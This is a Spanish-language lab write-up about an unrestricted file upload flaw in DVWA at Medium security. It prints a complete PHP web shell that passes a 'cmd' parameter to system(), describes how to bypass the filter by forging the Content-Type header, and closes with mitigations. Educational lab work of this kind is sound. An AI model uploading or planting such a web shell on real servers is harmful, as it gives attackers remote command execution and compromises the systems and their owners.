

# Reporte de Explotación: Unrestricted File Upload (Nivel: Medium) - DVWA

Este documento detalla la evasión de los controles de subida de archivos en nivel de seguridad **Medium**, logrando ejecutar una *web shell* en el servidor mediante la manipulación de cabeceras HTTP.

---

## 🔍 Análisis de la Vulnerabilidad

En el nivel de seguridad **Medium**, la aplicación introduce una validación básica del lado del servidor para restringir el tipo de archivos permitidos.

* **Mecanismo de Defensa:** El servidor verifica la cabecera `Content-Type` enviada en la petición POST. Solo permite archivos que se identifiquen como imágenes (ej. `image/jpeg` o `image/png`).
* **Debilidad:** La aplicación confía en la cabecera proporcionada por el cliente, la cual puede ser interceptada y modificada fácilmente antes de llegar al servidor. No realiza una inspección profunda del contenido real del archivo (*magic bytes*).

---

## 🚀 Proceso de Explotación

### 1. Preparación del Payload (Web Shell)
Se utilizó un script PHP llamado `rev3.php` diseñado para recibir comandos a través de parámetros GET y ejecutarlos en el sistema operativo mediante la función `system()`.

**Código de la Web Shell:**

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

*El script crea un formulario sencillo que envía el comando al parámetro `cmd`.*

### 2. Bypass del Filtro de Tipo de Contenido
Al intentar subir el archivo `.php` directamente, el servidor lo bloquea. Para evadir esto, se utilizó la función **"Editar y Reenviar"** (Edit and Resend) de las herramientas de desarrollador del navegador (pestaña Network):

1. Se selecciona la petición de subida fallida.
2. Se modifica la cabecera de la sección del archivo:
   `Content-Type: application/x-php`  ➔  `Content-Type: image/png`
3. Se reenvía la petición.

### 3. Ejecución de Comandos
Tras la manipulación de la cabecera, el servidor acepta el archivo. La confirmación indica que el archivo se alojó en `../../hackable/uploads/rev3.php`.

Al acceder a la URL del archivo y utilizar el formulario inyectado, se obtiene ejecución remota de comandos (RCE).

**Captura del resultado exitoso:**

*En la imagen se observa la ejecución del comando `pwd`, devolviendo la ruta absoluta del directorio de subidas: `/var/www/html/DVWA/hackable/uploads`.*

---

## 🛡️ Medidas de Mitigación

Para prevenir la subida de archivos maliciosos, se deben implementar las siguientes capas de seguridad:

1.  **Validación de Extensión (Lista Blanca):** No confiar en el `Content-Type`. Renombrar los archivos subidos con una extensión permitida y aleatoria.
2.  **Inspección de Contenido:** Utilizar librerías para verificar que el archivo sea realmente una imagen (analizando sus *magic bytes* o re-procesando la imagen).
3.  **Desactivar Ejecución:** Configurar el servidor web (Apache/Nginx) para que no ejecute scripts (PHP, Python, etc.) en el directorio de subidas.
4.  **Almacenamiento Seguro:** Guardar los archivos fuera de la raíz pública del servidor web o en un servicio de almacenamiento externo (S3, Cloud Storage).

---
> **Aviso de Seguridad:** Este reporte tiene fines exclusivamente educativos. El acceso no autorizado a sistemas informáticos es ilegal.
